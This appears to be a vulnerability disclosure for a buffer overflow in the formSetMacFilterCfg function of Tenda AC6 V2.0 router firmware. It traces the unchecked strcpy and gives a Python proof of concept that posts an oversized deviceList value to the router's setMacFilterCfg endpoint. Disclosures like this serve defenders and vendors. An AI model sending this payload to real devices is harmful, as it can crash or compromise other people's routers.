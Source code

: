 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "formSetMacFilterCfg"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

In the function `formSetMacFilterCfg`, user-supplied parameters **`macFilterType`** and **`deviceList`** are passed to a function **without input validation**, ultimately leading to an **overflow**.

formSetMacFilterCfg-》set_macfilter_rules-》set_macfilter_rules_by_one-》parse_macfilter_rule-》strcpy

![image-20250614182456806](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614182456806.png)

![image-20250619135927395](C:\Users\SolitaryGrass\AppData\Roaming\Typora\typora-user-images\image-20250619135927395.png)

![image-20250619135900666](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250619135900666.png)

poc

```
import requests
def send_payload(url, type,list):
    params = {b'macFilterType': type,b'deviceList': list}
    cookie={'password':'ssetgb'}
    response = requests.post(url, cookies=cookie, data=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")
url="http://192.168.1.1/goform/setMacFilterCfg"
type=b'black'
list="DEADBEEFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\r11"
send_payload(url, type, list)
```

![image-20250616215744978](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250616215744978.png)